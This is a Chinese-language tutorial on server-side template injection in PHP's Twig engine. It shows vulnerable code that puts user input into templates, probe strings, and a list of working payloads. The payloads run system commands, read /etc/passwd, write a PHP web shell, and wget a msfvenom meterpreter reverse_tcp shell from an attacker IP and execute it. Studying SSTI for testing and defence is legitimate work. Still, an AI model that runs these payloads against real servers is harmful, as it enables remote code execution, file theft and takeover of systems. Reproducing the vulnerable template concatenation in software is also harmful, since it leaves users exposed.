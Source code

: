 # PHP-Twig 模板注入

Twig 是来自于 Symfony 的模板引擎，它非常易于安装和使用。它的操作有点像 Mustache 和 liquid。

```php
<?php
　　require_once dirname(__FILE__).'\twig\lib\Twig\Autoloader.php';
　　Twig_Autoloader::register(true);
　　$twig = new Twig_Environment(new Twig_Loader_String());
　　$output = $twig->render("Hello {{name}}", array("name" => $_GET["name"]));  // 将用户输入作为模版变量的值
　　echo $output;
?>
```

Twig 使用一个加载器 loader(Twig_Loader_Array) 来定位模板，以及一个环境变量 environment(Twig_Environment) 来存储配置信息。

其中，render() 方法通过其第一个参数载入模板，并通过第二个参数中的变量来渲染模板。

使用 Twig 模版引擎渲染页面，其中模版含有 {{name}}  变量，其模版变量值来自于 GET 请求参数$_GET["name"] 。

显然这段代码并没有什么问题，即使你想通过 name 参数传递一段 JavaScript 代码给服务端进行渲染，也许你会认为这里可以进行 XSS，但是由于模版引擎一般都默认对渲染的变量值进行编码和转义，所以并不会造成跨站脚本攻击：
但是，如果渲染的模版内容受到用户的控制，情况就不一样了。修改代码为：

```php
<?php
　　require_once dirname(__FILE__).'/../lib/Twig/Autoloader.php';
　　Twig_Autoloader::register(true);
　　$twig=newTwig_Environment(newTwig_Loader_String());
　　$output=$twig->render("Hello {$_GET['name']}");// 将用户输入作为模版内容的一部分
　　echo $output;?>
```

上面这段代码在构建模版时，拼接了用户输入作为模板的内容，现在如果再向服务端直接传递 JavaScript 代码，用户输入会原样输出，测试结果显而易见：
如果服务端将用户的输入作为了模板的一部分，那么在页面渲染时也必定会将用户输入的内容进行模版编译和解析最后输出。

在 Twig 模板引擎里，`{{var}}` 除了可以输出传递的变量以外，还能执行一些基本的表达式然后将其结果作为该模板变量的值。

例如这里用户输入 name=`{{2*10}} ，则在服务端拼接的模版内容为：
尝试插入一些正常字符和 Twig 模板引擎默认的注释符，构造 Payload 为：
bmjoker{# comment #}{{2*8}}OK
实际服务端要进行编译的模板就被构造为：
bmjoker{# comment #}{{2*8}}OK
由于 {# comment #}  作为 Twig 模板引擎的默认注释形式，所以在前端输出的时候并不会显示，而 {{2*8}} 作为模板变量最终会返回 16 作为其值进行显示，因此前端最终会返回内容 Hello bmjoker16OK

通过上面两个简单的示例，就能得到 SSTI 扫描检测的大致流程（这里以 Twig 为例）:

同常规的 SQL 注入检测，XSS 检测一样，模板注入漏洞的检测也是向传递的参数中承载特定 Payload 并根据返回的内容来进行判断的。

每一个模板引擎都有着自己的语法，Payload 的构造需要针对各类模板引擎制定其不同的扫描规则，就如同 SQL 注入中有着不同的数据库类型一样。

简单来说，就是更改请求参数使之承载含有模板引擎语法的 Payload，通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析，有解析则可以判定含有 Payload 对应模板引擎注入，否则不存在 SSTI。

凡是使用模板的网站，基本都会存在 SSTI，只是能否控制其传参而已。

接下来借助 XVWA 的代码来实践演示一下 SSTI 注入

如果在 web 页面的源代码中看到了诸如以下的字符，就可以推断网站使用了某些模板引擎来呈现数据

<div>{$what}</div>
<p>Welcome, {{username}}</p>
<div>{%$a%}</div>
...
通过注入了探测字符串 ${{123+456}}，以查看应用程序是否进行了相应的计算：

根据这个响应，我们可以推测这里使用了模板引擎，因为这符合它们对于 {{ }} 的处理方式

在这里提供一个针对 twig 的攻击载荷：

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

使用 msf 生成了一个 php meterpreter 有效载荷

msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.127.131 LPORT=4321 > /var/www/html/shell.txt
msf 进行监听：

模板注入远程下载 shell，并重命名运行

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("wget <http://192.168.127.131/shell.txt> -O /tmp/shell.php;php -f /tmp/shell.php")}}

以上就是 php twig 模板注入，由于以上使用的 twig 为 2.x 版本，现在官方已经更新到 3.x 版本，根据官方文档新增了 filter 和 map 等内容，补充一些新版本的 payload：

{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}

{{app.request.files.get(1).openFile.fread(99)}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

{{_self.env.enableDebug()}}{{_self.env.isDebug()}}

{{["id"]|map("system")|join(",")

{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}

{{["id",0]|sort("system")|join(",")}}

{{["id"]|filter("system")|join(",")}}

{{[0,0]|reduce("system","id")|join(",")}}

{{['cat /etc/passwd']|filter('system')}}
具体 payload 分析详见：《TWIG 全版本通用 SSTI payloads》

　　　　　　　　　　  《SSTI-服务器端模板注入》
